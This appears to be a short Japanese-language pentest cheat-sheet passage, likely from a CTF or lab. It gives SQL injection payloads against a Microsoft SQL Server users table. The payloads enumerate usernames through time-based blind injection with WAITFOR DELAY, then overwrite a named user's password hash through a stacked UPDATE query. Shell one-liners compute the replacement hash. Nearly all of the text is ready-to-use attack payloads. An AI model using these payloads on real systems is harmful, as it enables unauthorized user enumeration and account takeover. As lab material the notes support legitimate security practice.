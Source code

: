 ### ### テーブル内の既存のユーザを特定
```sh
'; IF ((select count(username) from users where username like 'a%')=1) WAITFOR DELAY '0:0:10';-- -

'; IF ((select count(username) from users where username = 'butch')=1) WAITFOR DELAY '0:0:10';-- -これでユーザ名の列挙はできたと判断できる。
```

### ### 値の更新

```sh
'; update users set password_hash = '6183c9c42758fa0e16509b384e2c92c8a21263afa49e057609e3a7fb0e8e5ebb' where username = 'butch';-- -
	# 上記の様にパスワードを上書きする場合は以下の様なコマンドでエンコードする必要がある。

↓これでパスワードのハッシュを取得する。
# echo -n 'tacos123' | md5sum
# echo -n 'tacos123' | sha1sum
# echo -n 'tacos123' | sha256sum
```

---
